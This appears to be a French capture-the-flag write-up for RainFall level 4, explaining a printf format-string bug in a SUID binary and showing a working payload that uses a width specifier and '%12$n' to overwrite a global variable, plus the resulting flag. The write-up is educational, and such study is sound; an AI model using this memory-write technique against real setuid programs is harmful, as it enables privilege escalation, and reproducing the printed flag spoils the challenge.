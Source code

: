 # RainFall CTF - Level4

## Reconnaissance

### Fichier trouvé
```bash
level4@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5403 Mar  6  2016 level4
```

**Observations :**
- Exécutable avec SUID bit activé (`s` dans les permissions)
- Appartient à `level5` (propriétaire) et `users` (groupe)
- Peut être exécuté avec les privilèges de `level5`

## Analyse statique avec Ghidra

### Fonction main
```c
void main(void) {
  n();
  return;
}
```

### Fonction n (principale)
```c
void n(void) {
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  p(local_20c);
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}
```

### Fonction p (vulnérable)
```c
void p(char *param_1) {
  printf(param_1);    // ← VULNÉRABILITÉ FORMAT STRING
  return;
}
```

## Analyse des vulnérabilités

### Format String Vulnerability
- **Fonction dangereuse** : `printf(param_1)` dans la fonction `p()`
- **Problème** : Input utilisateur passé directement comme format string
- **Impact** : Contrôle total des spécificateurs de format

### Condition de victoire
```c
if (m == 0x1025544) {  // Si m vaut 16930116 en décimal
    system("/bin/cat /home/user/level5/.pass");
}
```

Il faut modifier la variable globale `m` pour qu'elle vaille `0x1025544` (16930116 en décimal).

## Reconnaissance de la variable m

### Conversion hexadécimal → décimal
- **Valeur cible** : `0x1025544` = `16930116` en décimal
- **Valeur actuelle** : `m = 0`

### Localisation avec GDB
```bash
gdb ./level4
(gdb) b main
(gdb) info variables    # Affiche l'adresse de m
```

**Résultat** : Variable `m` située à l'adresse `0x08049810`

```bash
(gdb) p m              # Affiche m = 0
```

## Test de localisation sur la pile

```bash
python -c "print('\x10\x98\x04\x08' + '0x%x ' * 20)" | ./level4
```

**Sortie :**
```
0xb7ff26b0 0xbffff794 0xb7fd0ff4 0x0 0x0 0xbffff758 0x804848d 0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 0x8049810 0x78257830 0x25783020 ...
```

L'adresse `0x8049810` (variable `m`) apparaît à la **12ème position** sur la pile.

## Problématique de la taille

### Approche naïve (échec)
```bash
(python -c "print('\x10\x98\x04\x08' + 'A' * (16930116 - 4) + '%12\$n')"; cat) | ./level4
```

**Problème** : Générer 16 930 112 caractères cause :
- Consommation excessive de mémoire
- Temps d'exécution très long
- Erreur "Broken pipe"

### Solution optimisée : Spécificateur de largeur

Au lieu de générer des millions de caractères, utiliser les capacités de `printf` :

## Mécanisme des spécificateurs de largeur

### Principe
`%16930112x` dit à `printf` :
- Affiche une valeur en hexadécimal
- Assure-toi que l'affichage total fasse **16930112 caractères**
- Ajoute des espaces à gauche si nécessaire

### Exemples
```c
printf("%10x", 255);    // Affiche "       ff" (8 espaces + "ff" = 10 chars)
printf("%5x", 255);     // Affiche "   ff" (3 espaces + "ff" = 5 chars)
```

### Avantage
- `printf` génère automatiquement le padding
- Pas besoin de créer une chaîne gigantesque en mémoire
- Beaucoup plus efficace

## Construction du payload

### Structure finale
1. **Adresse de m** : `\x10\x98\x04\x08` (4 octets)
2. **Spécificateur de largeur** : `%16930112x` (génère 16930112 caractères)
3. **Écriture mémoire** : `%12$n` (écrit le total à la 12ème position)

### Calcul
- Adresse : 4 caractères
- Largeur printf : 16930112 caractères
- **Total** : 16930116 caractères
- `%12$n` écrit cette valeur dans `m`

### Payload final
```bash
(python -c "print('\x10\x98\x04\x08' + '%16930112x' + '%12\$n')"; cat) | ./level4
```

## Séquence d'exécution

1. `fgets()` lit notre payload dans `local_20c`
2. `p(local_20c)` appelle `printf(local_20c)` avec notre format string
3. `printf()` exécute :
   - Affiche l'adresse `0x08049810`
   - `%16930112x` affiche une valeur hex sur 16930112 caractères
   - `%12$n` écrit le total (16930116) à l'adresse `m`
4. La condition `if (m == 0x1025544)` devient vraie
5. `system("/bin/cat /home/user/level5/.pass")` révèle le flag

## Exploitation réussie

```bash
level4@RainFall:~$ (python -c "print('\x10\x98\x04\x08' + '%16930112x' + '%12\$n')"; cat) | ./level4
[16930112 espaces]b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Résultats

### Flag obtenu
```
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

### Accès niveau suivant
- **Utilisateur** : `level5`
- **Prochain challenge** : `/home/user/level5/`

## Notes techniques

- **Type de vulnérabilité** : Format String Vulnerability (niveau avancé)
- **Technique d'exploitation** : Écriture de valeur importante via `%n`
- **Optimisation** : Utilisation des spécificateurs de largeur pour éviter les gros payloads
- **Architecture** : x86 (32-bit)
- **Concepts avancés** :
  - Spécificateurs de largeur (`%Nx`)
  - Positional arguments (`%12$n`)
  - Calcul précis de caractères imprimés
- **Valeur cible** : 16930116 (0x1025544)
- **Difficulité** : Avancé - Optimisation des format strings

## Évolution par rapport au level3

Ce level introduit :
- **Valeurs plus importantes** à écrire (16M vs 64)
- **Optimisation nécessaire** des payloads
- **Spécificateurs de largeur** pour l'efficacité
- **Indirection** via fonction `p()`

Cette progression montre l'évolution des techniques d'exploitation format string vers des scénarios plus réalistes et complexes.